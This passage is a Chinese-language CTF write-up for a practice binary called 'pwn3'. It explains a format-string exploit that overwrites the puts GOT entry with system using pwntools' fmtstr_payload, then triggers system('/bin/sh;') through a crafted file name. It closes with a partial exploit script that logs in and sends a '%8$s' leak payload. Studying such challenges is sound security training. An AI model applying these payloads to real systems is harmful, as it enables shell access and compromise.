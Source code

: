 ### 覆盖puts函数
我们之前已经用过了puts_file函数和get_file函数，接下来就该使用show_dir函数了。

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597989260800-9587b658-21b5-4980-99e7-0aa17937f937.png)

基本思路是这样的：

回顾一下show_dir函数，这个函数会将我们输入的文件名存放在变量s中，最后会作为puts函数的参数打印出来。**<font style="color:#F5222D;">那么如果将puts函数替换成system函数，并且我们创建一个叫"/bin/sh"的文件名，那么原本应该执行的是puts(s)，但实际上执行的却是system("/bin/sh")</font>**，前期都是准备工作，拿shell才是终极目的！！！

那么覆盖的过程依然利用格式化字符串进行覆盖，这里介绍一下pwntools中的一个函数fmtstr_payload

#### fmtstr_payload
![](https://cdn.nlark.com/yuque/0/2020/png/574026/1597999323723-05eb935a-4375-4436-90bf-32b36e94c4d3.png)

这个函数主要的用途就是利用格式化字符串漏洞覆盖某处地址，所以我们的覆盖payload就可以这样写：

```python
payload = fmtstr_payload(7, {puts_got: sys_addr})
```

> 7：距离格式化字符串的偏移
>
> puts_got：被覆盖的地址
>
> sys_addr：覆盖的地址
>

### 执行dir拿shell
在覆盖之后紧接着就可以输入dir调用show_dir函数，原本的puts("/bin/sh;")就会转而执行system("/bin/sh;")，然后就可以getshell了.

> 为什么/bin/sh后面会有一个分号？
>
> 因为system函数调用的时候是这样的system("/bin/sh;")，所以为了能够执行成功，所以加了一个分号
>

## 回顾思路
输入密码 --> 输入put创建文件 --> 输入文件名"/bin/sh;" --> 输入文件内容（覆盖的payload）–> 输入get打印文件内容 --> 输入要打印的文件名"/bin/sh;"执行覆盖

# exp
```python
# -*- coding: UTF-8 -*-
from pwn import *
context.log_level = 'debug'

sh = process('./pwn3')
pwn3 = ELF('./pwn3')
sh.recvuntil('Name (ftp.hacker.server:Rainism):')
#登录密码：rxraclhm
sh.sendline('rxraclhm')
#通过puts函数把部署好的泄露任意地址的payload写进去
puts_got = pwn3.got['puts']
sh.sendline('put')
sh.recvuntil('please enter the name of the file you want to upload:')
sh.sendline('Cyberangel')
sh.recvuntil('then, enter the content:')
payload='%8$s' + p32(puts_got)
sh.sendline(payload)
#通过get泄露puts函数地址
sh.sendline('get')
sh.recvuntil('enter the file name you want to get:')
sh.sendline('Cyberangel')
```